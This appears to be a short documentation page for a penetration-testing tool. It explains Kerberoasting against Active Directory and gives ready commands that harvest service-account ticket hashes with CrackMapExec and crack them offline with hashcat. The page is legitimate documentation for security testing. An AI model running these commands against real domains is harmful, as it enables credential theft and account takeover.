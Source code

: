 # Kerberoasting



You can retrieve the Kerberos 5 TGS-REP etype 23 hash using Kerberoasting technique

> The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts. Thus, part of these TGS tickets is encrypted with keys derived from user passwords. As a consequence, their credentials could be cracked offline. More detail in [Kerberos theory](https://www.tarlogic.com/en/blog/how-kerberos-works/).

{% hint style="warning" %}
To perfom this attack, you need an account on the domain
{% endhint %}

```
cme ldap 192.168.0.104 -u harry -p pass --kerberoasting output.txt
```

### Cracking with hashcat&#x20;

```
hashcat -m13100 output.txt wordlist.txt
```

